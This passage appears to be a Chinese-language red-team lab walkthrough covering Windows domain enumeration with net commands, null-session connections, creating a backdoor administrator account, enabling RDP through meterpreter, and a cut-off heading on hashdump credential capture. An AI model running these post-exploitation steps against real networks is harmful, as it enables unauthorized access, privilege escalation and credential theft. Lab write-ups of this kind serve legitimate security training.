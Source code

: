 | net use \\192.168.xx.xx\ipc$ "" /user:""         | 与192.168.xx.xx建立空连接                                    |
| net use \\192.168.xx.xx\c$ "密码" /user:"用户名" | 建立c盘共享                                                  |
| **net config Workstation**                       | **查看计算机名、全名、用户名、系统版本、工作站、域、登录域** |
| **net user**                                     | **查看本机用户列表**                                         |
| **net user /domain**                             | **查看域用户**                                               |
| net localgroup administrators                    | 查看本地管理员组（通常会有域用户）                           |
| **net view /domain**                             | **查看有几个域**                                             |
| net user 用户名 /domain                          | 获取指定域用户的信息                                         |
| net group /domain                                | 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作） |
| net group 组名 /domain                           | 查看域中某工作组                                             |
| net group "domain admins" /domain                | 查看域管理员的名字                                           |
| net group "domain computers" /domain             | 查看域中的其他主机名                                         |
| **net group "doamin controllers" /domain**       | **查看域控制器（可能有多台）**                               |

整理一下信息

- **域：**god.org
- **域内有三个用户：**Administrator、ligang、liukaifeng01
- **域内三台主机：**ROOT-TVI862UBEH(192.168.52.141)、STU1(win7)、OWA
- **域控：**OWA(192.168.52.138)
- **win7内网ip：**192.168.52.143



### 开启3389端口

使用meterpreter命令`shell`获取shell

使用CMD指令创建用户并进行用户提权
`net user 用户名 密码 /add`
`net localgroup administrators 用户名 /add`
`exit`退出CMD

使用meterpreter命令`run getgui -e`开放3389端口
Kali终端输入`rdesktop IP`进行连接
并使用提权后的管理员登录

```
run getgui -e
```



### hash密码抓取

#### 使用Hashdump抓取密码
